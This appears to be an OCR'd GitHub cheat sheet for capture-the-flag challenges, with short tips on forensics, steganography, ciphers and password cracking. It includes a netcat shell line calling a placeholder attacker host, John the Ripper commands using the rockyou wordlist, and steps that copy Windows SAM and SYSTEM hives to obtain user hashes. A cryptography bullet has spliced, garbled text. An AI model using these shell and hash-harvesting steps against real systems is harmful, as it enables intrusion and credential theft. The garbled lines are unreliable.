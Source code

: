### SHELL
* Reverse Shell
* Bind Shell : `nc <ATTACKER_IP> <ATTACKET_PORT>`, to listen : `nc -lvp <ATTACKER_PORT>`

## File Hacking
* If something is hidden on a pdf which we need to find, we can Press Ctrl + A to copy everything on the pdf and paste on notepad.
   * If nothing is found, we can use [Inkspace tool](https://inkscape.org) to paste the pdf and try to ungroup several times to extract any hidden flag.
   * We can even solve using pdf-uncompress tools like qpdf to convert compressed data to redeable format and solve from there.
* If there is `PK` at the start of the file in the magic bytes, its most probably `ZIP` File.
* If there is recursive ZIP File, we can use the following command `binwalk -Me <FILE_NAME>`.
* If EXE file is having some hidden text, we can use hexeditor or strings to locate the flag.
* If hidden text has == at the end, it is base64 encoded.
* We can use Strace to track all application calls.
  * Command: `strace -s -f 12345 -e trace=recv,read <PROGRAM>`
* We can use ltrace to track all app + library calls.
  * Command: `ltrace ./<PROG_NAME>`

## Cryptography
* If there is word `caesar` in the question or hint, this can be a substitution cipher.
  * Use this website ww* This [site](https://www.guballa.de/vigenere-solver) is great at breaking Vigenère ciphers without knowing the key.
* If you find `!` in the cipher text and cipher seems to be within certain range of Letters and appears to be transposition of a plain text, Use this website [Ceasar Box](https://www.dcode.fr/caesar-box-cipher)w.dcode.fr/caesar-cipher to Bruteforce the hidden message.
* To solve One Time Pad : [OTP](http://rumkin.com/tools/cipher/otp.php)


## Forensics
* If there is a image given, try `file` comamnd on the image to learn more information.
* Binwalk to find data inside the image or sometimes if binwalk reports as zip Archive, we can rename the file to <FILE_NAME>.zip to find interesting data.
   * Command `binwalk <IMAGE_NAME>`
* If there is ntfs file,extract with 7Zip on Windowds. If there is a file with alternative data strems, we can use the command `dir /R <FILE_NAME>` and then we can this command to extract data inside it `cat <HIDDEN_STREAM> > asdf.<FILE_TYPE>`
* Method to extract ntfs in Linux : `sudo mount -o loop <FILENAME.ntfs> mnt`
* To extract data from Image files, we can use `zsteg <FILE_NAME>`
* Javascript Deobfuscator [Jsnice](http://www.jsnice.org/) 
* To check metadata `exiftool <FILE_NAME>`
* GrepToWin : `strings <FILE_NAME> | grep flag{`
* StegHide `steghide extract -sf <FILE_NAME>`

## Password Cracking
* If there is `JOHN` in the title/text/hint, its mostly reference to `JOHN the ripper` for bruteforce passwords/hashes.
  * Command : `./john -show <PASS_FILE>`
  * Better Command : `john output.hash --wordlist=/usr/share/wordlists/rockyou.txt`
* To crack Well known Hashes (CTF Related Password Cracking),use [Link](hashes.org)
* To get System User Hashes, we can follow this method
  ```
  root@kali:/mnt/vhd/Windows/System32/config# cp SAM SYSTEM ~/CTF/
  root@kali:/mnt/vhd/Windows/System32/config# cd ~/CTF/
  root@kali:~/CTF# ls
  SAM  SYSTEM  
  root@kali:~/CTF# mkdir Backup_dump
  root@kali:~/CTF# mv SAM SYSTEM Backup_dump/
  root@kali:~/CTF# cd Backup_dump/
  root@kali:~/CTF/Backup_dump# ls
  ```